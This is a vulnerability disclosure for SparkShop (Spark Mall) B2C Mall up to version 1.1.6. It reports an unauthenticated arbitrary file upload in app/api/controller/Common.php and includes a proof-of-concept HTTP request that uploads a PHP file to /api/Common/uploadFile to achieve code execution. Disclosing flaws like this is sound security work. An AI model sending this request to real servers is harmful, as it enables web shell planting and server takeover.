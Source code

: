 ### BUG_Author:

Rui Jie

### Affected version:

<=1.1.6

### Vendor:

Nanjing Xingyuantu Technology Co. 

SparkShop(Spark Mall) B2C Mall https://www.sparkshop.cn/
### Software:

https://gitee.com/sparkshop/sparkshop


https://github.com/nick-bai/sparkshop

### Vulnerability File:

app/api/controller/Common.php
### Description:
 A vulnerability categorised as critical has been discovered in SparkShop (Spark Mall) B2C Mall. This affects sections of the unauthorised interface file app/api/controller/Common.php. Manipulation of the parameter file results in arbitrary file uploads



![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271558047.png)
And there's no security check on the file upload part
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271559268.png)
We can upload any file via unauthorised api for RCE purposes.


POC
```
POST /api/Common/uploadFile HTTP/1.1

Host: 127.0.0.5

User-Agent: python-requests/2.28.1

Accept-Encoding: gzip, deflate

Accept: */*

Connection: keep-alive

Content-Length: 166

Content-Type: multipart/form-data; boundary=5f0c1dda2c37ae232c96415ad53dc96b

  

--5f0c1dda2c37ae232c96415ad53dc96b

Content-Disposition: form-data; name="file"; filename="shell.php"

  

<?=phpinfo();?>

--5f0c1dda2c37ae232c96415ad53dc96b--
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121552216.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121557807.png)


We achieved RCE by uploading a malicious php script

